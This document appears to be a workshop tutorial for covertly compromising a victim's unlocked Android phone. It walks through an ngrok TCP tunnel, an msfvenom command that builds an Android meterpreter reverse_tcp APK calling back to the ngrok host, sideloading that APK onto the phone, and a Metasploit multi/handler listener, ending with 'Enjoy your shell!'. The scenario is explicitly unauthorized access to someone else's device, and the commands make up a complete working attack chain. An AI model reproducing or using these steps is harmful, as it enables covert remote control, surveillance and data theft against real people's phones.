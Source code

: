 ## Workshop

### Attack Scenario. Went out with the victim and noticed he does not have his phone locked. I can grab his phone when he will not be looking to install and execute a reverse shell to gain access to his phone.

#### Workshop Steps.

First of all we need to consider how we will communicate with the mobile phone. We will not be in the same subnet with the victim so we need some kind of tunneling in order to be able to make the connection. In order to achieve this goal we will be using a utility called ngrok. ngrok is a utility that allows us to create a tunnel over the internet and map it to our localhost. It's basically an easy way to port forward a listener on our attacker's machine. Let's see how we will be setting it up.

##### ngrok configuration 

First we need to create an account to ngrok. That's easy and **FREE** . 
When we have our account setup we will be needing that access token it provides us with, so make sure you copy it and save it somewhere.

Next Download the application that comes along with it (from https://ngrok.com/download), unzip it and run the following command.
`./ngrok authtoken <your-token>` 
Note: Make sure you replace '<your-token>' with the token you copied earlier.

ngrok has been configured at this point.

##### ngrok setup tunnel

We will be using a reverse_tcp payload so we need a tcp tunnel on the internet to connect back to us without any conflicts.
ngrok makes this easy for us. We only have to type one command.
Execute the following command and let it active on a terminal. We won't be messing with this terminal any more, so open a new one to follow along.

`ngrok tcp 8080`
Note: 8080 is a port I chose independently. You can choose whatever port you may want, just note it down because you will need to configure your payload differently later on.

##### Payload generation (The fun stuff)

We will be using a meterpreter shell from the metasploit. Don't be intimidated, this is not too hard.
Before we dive into the command we need to understand a few things. 
From the ngrok output we are interested in this line: `Forwarding                    tcp://0.tcp.ngrok.io:19526 -> localhost:8080`

This line tells us that the application is forwarding traffic from the 0.tcp.ngrok.io domain on port 19526 to our localhost on port 8080.
This means that the reverse shell needs to connect to 0.tcp.ngrok.io on port 19526 and we will be listening on localhost on port 8080. The magic behind this is that without ngrok we wouldn't be able to immediately connect to our localhost on our attacker machine from the victim. However, ngrok's domain is publicly available on the open internet and it's serving right into our machine.

Without any further delay let's jump into the fun part.

Execute the following command.
`msfvenom -p android/meterpreter/reverse_tcp LHOST=0.tcp.ngrok.io LPORT=19526 R > android.apk`
This may take a while to return.

Note: Make sure to replace 0.tcp.ngrok.io and 19526 with your ngrok generated domain and port, otherwise the exploit won't work for you.

The msfvenom is a metasploit utility (Helper program if you may) that allows us to generate payloads of any type with ease. 
The -p flag sets the type of payload -> android/meterpreter/reverse_tcp means that we want an android compatible meterpreter shell over the tcp protocol. Note that this is a staged payload and we can notice this from the 'meterpreter/reverse_tcp'. If it was non-staged it would be 'meterpreter_reverse_tcp'
The LHOST parameter sets the ListenerHost and the LPORT parameter sets the ListeningPort. Note that this is different from the LHOST and LPORT on metasploit that we will be seeing later on. This Listener refers to the client payload listener, where the listening server lives on the internet. In this example the listening server lives at 0.tcp.ngrok.io at port 19526 for me.
The R > android.apk just redirects the payload output to a file.

Now we have that generated payload and we can tranfer it and install it to the victim's phone.
You can do that however you like. I will be doing it over USB transfer. You could also spin up an http server and download it from there.

After that we install it (If you need to enable 'Install from untrusted sources' go ahead and follow the instructions the phone provides. It should be straightforward)

##### Spin up the metasploit listener.

Now that we have the payload installed on the mobile we can spin up our metasploit listener to catch the connection.
In order to do that we need a few commands.

In the terminal type `msfconsole`
This may take a while to load so give it some time.

When it is loaded you will be greated with the metasploit banner and prompt.
We now need to type the following commands to spin the listener.

First we need to go to the right metasploit module to execute. This module is called handler.
`use exploit/multi/handler`
Then we need to set our payload
`set payload android/meterpreter/reverse_tcp`
Note that this payload has to be the exact same with the one we used with the msfvenom utility.

Next we need to configure our LHOST and LPORT

Our LHOST will be localhost this time because the traffic from ngrok's domain will be forwarded to our localhost.
`set LHOST 0.0.0.0`
And then our LPORT. This LPORT will be the one we started the ngrok with ('./ngrok tcp 8080') 
`set LPORT 8080`

and finally type `exploit`

##### Exploitation!

Now that our portforward is setup, the metasploit server is listening on the right port and the payload is installed on the phone we are ready for the exploitation phase.

All we need to do now is execute the payload on the phone by clicking the MainActivity application and we will get a connection over the internet on our metasploit listener. Enjoy your shell!

You can view the available commands by typing help on the meterpreter shell.

Note: Some commands may not work on specific mobile versions.